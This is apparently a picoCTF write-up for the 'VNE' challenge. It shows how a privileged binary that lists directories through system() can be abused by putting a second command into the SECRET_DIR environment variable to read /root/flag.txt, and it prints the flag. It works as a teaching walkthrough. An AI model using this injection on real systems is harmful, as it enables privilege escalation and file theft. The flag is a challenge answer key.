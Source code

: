 # VNE
> We've got a binary that can list directories as root, try it out !!

> Additional details will be available after launching your challenge instance.

## About the Challenge
We were given an access to SSH server and then there is a file called `bin` and if we run the file

![preview](images/preview.png)

## How to Solve?
If we set an environment variables called `SECRET_DIR` and the value is `/root` because we need to know what is inside `/root` directory. You can use this command

```shell
export SECRET_DIR=/root
```

Here is the output

![list](images/list.png)

As you can see there is a file called `flag.txt` and we need to read the content of the file to obtain the flag. If we check the string of the `bin` file using this command

```shell
strings bin
```

Here is the output

![strings](images/strings.png)

As you can see the file using `system()` function to listing a directory, so the idea here, we need to do Command injection by adding `; command` in the `SECRET_DIR` environment variable values. So for example

```shell
export SECRET_DIR="/root;cat /root/flag.txt"
```

And then rerun the program to obtain the flag

![flag](images/flag.png)

```
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```